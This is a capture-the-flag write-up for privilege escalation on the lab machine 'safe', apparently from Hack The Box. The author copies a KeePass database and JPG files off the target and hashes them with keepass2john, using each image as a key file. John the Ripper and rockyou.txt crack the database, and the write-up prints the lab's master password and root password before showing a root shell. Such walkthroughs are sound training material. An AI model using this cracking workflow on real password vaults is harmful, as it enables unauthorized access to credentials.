



# 20 - PrivEsc

# Files



# Download JPG and kdbx files
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/safe/kdbx]
└──╼ scp user@10.10.10.147:*.JPG .;
┌─[user@parrot]─[10.10.14.18]─[~/htb/safe/kdbx]
└──╼ scp user@10.10.10.147:*.kdbx .;
┌─[user@parrot]─[10.10.14.18]─[~/htb/safe/kdbx]
└──╼ file *.JPG *.kdbx
IMG_0545.JPG:    JPEG image data, baseline, precision 8, 3264x2448, components 3
IMG_0546.JPG:    JPEG image data, baseline, precision 8, 3264x2448, components 3
IMG_0547.JPG:    JPEG image data, baseline, precision 8, 3264x2448, components 3
IMG_0548.JPG:    JPEG image data, baseline, precision 8, 3264x2448, components 3
IMG_0552.JPG:    JPEG image data, baseline, precision 8, 3264x2448, components 3
IMG_0553.JPG:    JPEG image data, baseline, precision 8, 3264x2448, components 3
mypassword.kdbx: Keepass password database 2.x KDBX
```

# Generate keepass hashes with JPG key files for john.

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/safe/kdbx]
└──╼ $ for i in $(ls *.JPG); do 
> keepass2john -k $i mypassword.kdbx | sed "s/mypassword/$i/g";
> done > hash
```


# Hashes
```
IMG_0545.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*17c3509ccfb3f9bf864fca0bfaa9ab137c7fca4729ceed90907899eb50dd88ae
IMG_0546.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*a22ce4289b755aaebc6d4f1b49f2430abb6163e942ecdd10a4575aefe984d162
IMG_0547.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*e949722c426b3604b5f2c9c2068c46540a5a2a1c557e66766bab5881f36d93c7
IMG_0548.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*d86a22408dcbba156ca37e6883030b1a2699f0da5879c82e422c12e78356390f
IMG_0552.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*facad4962e8f4cb2718c1ff290b5026b7a038ec6de739ee8a8a2dd929c376794
IMG_0553.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*7c83badcfe0cd581613699bb4254d3ad06a1a517e2e81c7a7ff4493a5f881cf2
```
`sed` is used to identify the filename from the hashes in case we crack it


# IMG_0547.JPG
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/safe/kdbx]
└──╼ $ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 6 password hashes with 6 different salts (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bullshit         (IMG_0547.JPG)
```

* bullshit:IMG_0547.JPG


# Keepass2




* Master Password: **bullshit**
* Key File: **IMG_0547.JPG**


# Root




# Root shell
```bash
user@safe:~$ su - root
Password: u3v2249dl9ptv465cogl3cnpo3fyhk
root@safe:~# id
uid=0(root) gid=0(root) groups=0(root)
```